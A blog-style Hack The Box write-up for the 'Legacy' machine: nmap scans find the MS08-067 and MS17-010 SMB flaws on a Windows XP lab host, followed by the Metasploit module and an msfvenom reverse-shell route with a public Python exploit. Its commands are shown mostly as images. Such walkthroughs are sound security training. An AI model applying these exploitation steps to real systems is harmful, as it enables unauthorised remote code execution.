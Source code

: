 ```yaml
---
layout: PostSimple
date: 2020-02-25
title:     "Hack The Box - Legacy"
tags: ['windows','easy','smb','ms08-067']
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-legacy/1.png)

We are going to pwn Legacy from Hack The Box. Which is a windows box based on smb exploit and I have explained in two methods.

Link : [https://www.hackthebox.eu/home/machines/profile/2](https://www.hackthebox.eu/home/machines/profile/2)


Lets Begin with our Initial Nmap Scan.

Nmap Scan Results:

```
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Device type: general purpose|specialized
Running (JUST GUESSING): Microsoft Windows XP|2003|2000 (92%), General Dynamics embedded (88%)
OS CPE: cpe:/o:microsoft:windows_xp cpe:/o:microsoft:windows_server_2003 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows XP SP2 or Windows Small Business Server 2003 (92%), Microsoft Windows 2000 SP4 or Windows XP SP2 or SP3 (92%), Microsoft Windows XP SP2 (91%), Microsoft Windows Server 2003 (90%), Microsoft Windows XP SP3 (90%), Microsoft Windows XP Professional SP3 (90%), Microsoft Windows XP SP2 or SP3 (90%), Microsoft Windows XP Professional SP2 (90%), Microsoft Windows XP SP2 or Windows Server 2003 (90%), Microsoft Windows 2000 Server (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -3h58m32s, deviation: 1h24m50s, median: -4h58m32s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: [unknown](unknown), NetBIOS MAC: 00:50:56:b9:1d:23 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-02-24T14:47:45+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

```

## SMB:

Started with ``smbmap`` to check if there is any file.

```
root@w0lf# smbmap -H 10.10.10.4
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.4...
[+] IP: 10.10.10.4:445  Name: 10.10.10.4
        Disk                                                    Permissions
        ----                                                    -----------
[!] Access Denied
```

I tried the nmap scripts to check for vulnerabilities. Since the OS is Windows XP there must be.

```
root@w0lf# nmap --script smb-vuln* -p 445 10.10.10.4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-24 19:20 EST
Nmap scan report for 10.10.10.4
Host is up (0.018s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067:
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

```
So the box is vulnerable to SMB exploit ``ms08-067``

```
ms - Microsoft
08 - The year of the patch was released i.e 2008
067 - The patch number i.e 067
```
> https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi

## Method 1:

> use exploit/windows/smb/ms08_067_netapi

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-legacy/2.png)

By using this method we can get the root shell easily.

## Method 2 (Without Metasploit):

> https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py

From the exploit, first we need to create shellcode with ``msfvenom``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-legacy/3.png)

```
-p This will connect back to me with a shell.
-b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" - The bad characters not to use.
-f py - The output in python format.
-v shellcode - Specify a custom variable name to use for certain output formats
-a x86 and --platform windows - Describing the environment I’m attacking.
```


I created mine using the example.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-legacy/4.png)

I replaced my shellcode here 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-legacy/5.png)

So we need to enter OS version we already know its ``Windows XP`` so I used ``6``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-legacy/6.png)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-legacy/7.png)

Started my listener on background.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-legacy/8.png)


```
C:\Documents and Settings\john\Desktop>type user.txt
type user.txt
e69....................
```

```
C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
993.....................
````



